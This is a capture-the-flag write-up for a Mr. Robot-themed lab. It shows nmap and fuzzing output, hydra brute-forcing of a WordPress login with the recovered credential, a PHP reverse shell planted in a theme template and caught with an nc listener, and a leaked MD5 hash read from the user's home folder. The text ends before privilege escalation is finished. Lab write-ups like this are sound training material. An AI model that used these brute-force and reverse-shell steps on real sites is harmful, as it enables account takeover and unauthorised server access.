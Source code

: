 # Introduction
seems to be a beginner friendly CTF... again :-/  Objective is to find 3 keys so lets get started

# Enumeration
### Nmap
```sh
$ cat nmap/initial
# Nmap 7.95 scan initiated Sun Nov  3 15:45:36 2024 as: nmap -p- -oN nmap/initial 10.10.192.6
Nmap scan report for 10.10.192.6
Host is up (0.039s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```
*lets check out the http(s) server...*
### http server
when we open the page we are greeted with a grub boot screen and then this
![[Pasted image 20241103155517.png]]
#### Commands
**Prepare:**
	we are greeted with a video...
	[[prepare.webm]]
**Fsociety:**
	we get another video
	[[fsociety.webm]]
**Question:**
	this time we get a slideshow of images... *this is one of them*
	 ![[Pasted image 20241103160958.png]]
**Wakeup:**
	another video...
	[[wakeup.webm]]
**Inform:**
	gets us a screen with a bunch of news letters beneath a few words from mr.robot
	![[Pasted image 20241103160114.png]]
**Join:**
	we got greeted with a dialogue where he asked us to give him a email I tried it with a trash-mail but nothing arrived.. *probably because there is no mail server running on the machine*
	![[Pasted image 20241103161651.png]]

#### robots.txt
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
these are 2 files on the http server 
* `fsocity.dic` is a wordlist
* `key-1-of-3.txt` is the first key

#### Fuzzing
```
 :: Method           : GET
 :: URL              : http://10.10.192.6/FUZZ
 :: Wordlist         : FUZZ: /home/janosch/git/labs/MrRobotCTF/loot/fsocity.dic
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

images                  [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 57ms]
css                     [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 38ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 702ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 39ms]
video                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
audio                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
admin                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
blog                    [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 38ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 616ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 44ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 674ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 40ms]
Year201120102009200820072006200520042003200220012000199919981997199619951994199319921991199019891988198719861985198419831982198119801979197819771976197519741973197219711970196919681967196619651964196319621961196019591958195719561955195419531952195119501949194819471946194519441943194219411940193919381937193619351934193319321931193019291928192719261925192419231922192119201919191819171916191519141913191219111910190919081907190619051904190319021901 [Status: 403, Size: 657, Words: 16, Lines: 10, Duration: 38ms]
..Snip..(loop)
```
##### /login
![[Pasted image 20241103173548.png]]
looks like a Wordpress login screen lets try brute-forcing for the username

# Vulnerability Assessment
### /login
lets try to find the right request using burp
```HTTP
POST /wp-login.php HTTP/1.1
Host: 10.10.237.121
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.237.121
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.237.121/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.121%2Fwp-admin%2F&testcookie=1
```

# Exploitation

## Cracking Passwords in WordPress
built this command with hydra and found a username
```sh
$ hydra -L fsocity.dic -p pass http-post-form://10.10.237.121"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.121%2Fwp-admin%2F&testcookie=1:F=Invalid username" -I

..Snip..

[80][http-post-form] host: 10.10.237.121   login: Elliot   password: pass
[80][http-post-form] host: 10.10.237.121   login: elliot   password: pass
```
now lets try to find the password

_..brute forcing the password took a bit too long and I realized that I have to remove the duplicates from the wordlist.._
```sh
sort fsocity.dic | uniq > fsocity.dic.uniq
```
the size difference is quiet noticeable
```
-rw-r--r-- 1 janosch wheel 7245381 fsocity.dic
-rw-r--r-- 1 janosch wheel   96747 fsocity.dic.uniq
```

```zsh
$ hydra -l elliot -P fsocity.dic.uniq http-post-form://10.10.154.137"/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-05 15:14:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.154.137:80/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username
[STATUS] 2036.00 tries/min, 2036 tries in 00:01h, 9416 to do in 00:05h, 16 active
[80][http-post-form] host: 10.10.154.137   login: elliot   password: ER28-0652
```

## RCE exploit via Theme
found this [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and used the Editor to replace the 404 Template with the exploit

```sh
$ nc -lvnp 1234                                                                                  ✘ 1
Connection from 10.10.52.84:37095
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:47:40 up 13 min,  0 users,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```
We Got A shell  ^-^
# Privilege Escalation
now that we've gotten a shell we should have a look at the home folder

```sh
$ cd /home 
$ ls
robot
$ cd robot 
$ ls
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

so we cant access the second key because we don't have privilege but the password hash seems to be in the other file so we just need to crack it

